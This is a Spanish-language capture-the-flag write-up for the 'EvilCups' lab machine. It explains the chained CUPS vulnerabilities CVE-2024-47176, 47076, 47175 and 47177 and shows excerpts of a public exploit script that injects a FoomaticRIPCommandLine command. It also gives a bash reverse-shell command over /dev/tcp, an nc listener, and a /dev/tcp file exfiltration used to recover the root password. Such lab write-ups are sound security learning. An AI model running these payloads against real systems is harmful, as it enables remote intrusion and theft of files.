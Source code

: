 ```yaml
---
title: "EvilCups"
date: "2025-03-11T17:00:00-05:00"
type: "maquinas"
draft: false
tags: ["CVE-2024-47076", "CVE-2024-47175", "CVE-2024-47176", "CVE-2024-47177", "linux", "RCE", "UDP"]
---
```

### Descripción:
Maquina que nos pide explotar un CVE de el servicio CUPS donde podemos obtener una shell, el escalamiento es simplemente leer la documentación del servicio y leer un archivo descubriendo su nombre

# Enumeración

```bash
sudo nmap -p- --min-rate 5000 -Pn -n --open -sS [IP] -oG allPorts
nmap -p22,601 -sVC -A [IP] -oN target
```

<a href="https://imgur.com/3zIfURM"><img src="https://i.imgur.com/3zIfURM.png" title="source: imgur.com" /></a>

Si hacemos una rápida búsqueda de puerto 631 encontraremos que además de mencionar el puerto `TCP` también mencionan el puerto pero en [`UDP`](https://es.adminsub.net/tcp-udp-port-finder/631), debido a esto vamos a escanear también este protocolo.

```bash
nmap -sU -p631 [IP]
```

<a href="https://imgur.com/Nm3UrFv"><img src="https://i.imgur.com/Nm3UrFv.png" title="source: imgur.com" /></a>

## CUPS - TCP 631

<a href="https://imgur.com/KCk6bh6"><img src="https://i.imgur.com/KCk6bh6.png" title="source: imgur.com" /></a>

Cups tiene una GUI para ayudar al uso de su servicio.

<a href="https://imgur.com/u7JYm95"><img src="https://i.imgur.com/u7JYm95.png" title="source: imgur.com" /></a>

Podemos ver que hay una impresora instalada en el servicio.

# Usuario

## CUPS CVE’S

Buscando por la versión del servicio vamos a hallar diferentes vulnerabilidades que hay para este:

- CVE-2024-47176 - cups-browsed, el servicio que típicamente escucha en todas las interfaces UDP 631, es el que permite agregar una impresora a una máquina de forma remota. Esta vulnerabilidad permite que cualquier atacante que pueda alcanzar esta máquina active una solicitud "Get-Printer-Attributes" del Protocolo de Impresión por Internet (IPP) que se envía a una URL controlada por el atacante. Esto se corrigió simplemente deshabilitando cups-browsed ya que no es realmente la mejor manera de obtener esta funcionalidad.
- CVE-2024-47076 - libcupsfilters es responsable de manejar los atributos IPP devueltos de la solicitud. Estos se escriben en un archivo temporal de Descripción de Impresora Postscript (PPD) sin sanitización, permitiendo que se escriban atributos maliciosos.
- CVE-2024-47175 - libppd es responsable de leer un archivo PPD temporal y convertirlo en un objeto de impresora en el sistema. Tampoco realiza sanitización durante la lectura, permitiendo la inyección de datos controlados por el atacante.
- CVE-2024-47177 - Esta vulnerabilidad en cups-filters permite cargar una impresora usando el filtro de impresión foomatic-rip, que es un convertidor universal para transformar datos PostScript o PDF al formato que la impresora puede entender. Ha tenido problemas de inyección de comandos durante mucho tiempo y se ha limitado solo a instalaciones y configuraciones manuales.

Combinando estas cuatro vulnerabilidades podremos agregar una impresora y ejecutar comandos cuando imprimamos desde esta.

## Explotación

El creador de la maquina tiene una [script](https://github.com/IppSec/evil-cups/tree/main) que nos va a ayudar a resolver esta maquina.

La función `__main__` nos da una buena idea de que hace el script:

```python
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = sys.argv[3]

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))

    threading.Thread(
        target=run_server,
        args=(server, )
    ).start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    print("Please wait this normally takes 30 seconds...")

    seconds = 0
    while True:
        print(f"\r{seconds} elapsed", end="", flush=True)
        time.sleep(1)
        seconds += 1
```

Al leer el script nos damos cuenta que lo que esta haciendo es montar un servidor `ipp` y mandarle un paquete, vamos a revisar en donde se vuelve malicioso el paquete que envía ya que todos los atributos son normales menos el ultimo donde hace una inyección pasándole [FoomaticRIPCommandLine](https://github.com/OpenPrinting/cups-filters/security/advisories/GHSA-p9rh-jxmq-gq47).

```python
class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()
    
    def printer_list_attributes(self):
        attr = {
            # rfc2911 section 4.4
            (   
                SectionEnum.printer,
                b'printer-uri-supported',
                TagEnum.uri
            ): [self.printer_uri],
            (
            ...[snip]...
            (
                SectionEnum.printer,
                b'printer-more-info',
                TagEnum.uri
            ): [f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()],
...[snip]...
```

### Agregar la impresora

Para esto vamos a ejecutar el script de la siguiente forma:

```bash
python evilcups.py 10.10.14.152 10.129.231.157 'bash -c "bash -i >& /dev/tcp/IP/4444 0>&1"'
```

Y si vamos a la pagina http que tiene el servicio a la parte de impresoras tendremos una nueva impresora:

<a href="https://imgur.com/rpyZbhZ"><img src="https://i.imgur.com/rpyZbhZ.png" title="source: imgur.com" /></a>

Listo ahora es el momento de probar si ejecuta comandos:

```bash
# Nos ponemos en escucha
nc -lvnp 4444
```

En la pagina de la impresora en la sección de mantenimiento podemos imprimir una pagina de prueba con esto conseguiremos la shell y la flag.

Una mejor shell para enviar seria **`nohup bash -c "bash -i >& /dev/tcp/IP/4444 0>&1"&`**, ya que inicia un proceso en segundo plano, para evitar que la shell se pierda cada 5 minutos aproximadamente cuando al impresora se elimina.

# Root

Primero hacemos el tratamiento de la `tty` como acostumbramos:

Aquí está el tratamiento típico de la TTY:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Listo después de listar por un rato no encontré nada interesante por lo que me devolví a la web y vi que la impresora que siempre esta presente tenia un trabajo que había realizado así que revisando la documentación nos dimos cuenta que estos trabajos se guardan en `/var/spool/cups/` y si bien no podemos listar dentro del directorio por medio de la documentación sabemos el nombre del archivo que es `d[5 números]-001` por lo tanto si ejecutamos el siguiente comando veremos el archivo:

```bash
cat d00001-001
```

Entonces vamos a mandarnos este archivo a nuestra maquina para enviar el archivo vamos a usar `/dev/tcp` podemos hacer:

```bash
# En nuestra maquina
nc -lvnp 4444 > archivo.pdf

# En la maquina victima
cat d00001-001 > /dev/tcp/TU_IP/4444
```

De esta forma el archivo se transferirá a nuestra máquina a través de una conexión TCP en el puerto 4444.

Y si abrimos este pdf en nuestra maquina tendremos la contraseña para root:

<a href="https://imgur.com/WW5jiOB"><img src="https://i.imgur.com/WW5jiOB.png" title="source: imgur.com" /></a>

Si quieres aprender mas sobre el CVE que se exploto tienes estas referencias:

- https://www.hackthebox.com/blog/cve-2024-47176-cups-vulnerability-explained
- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/

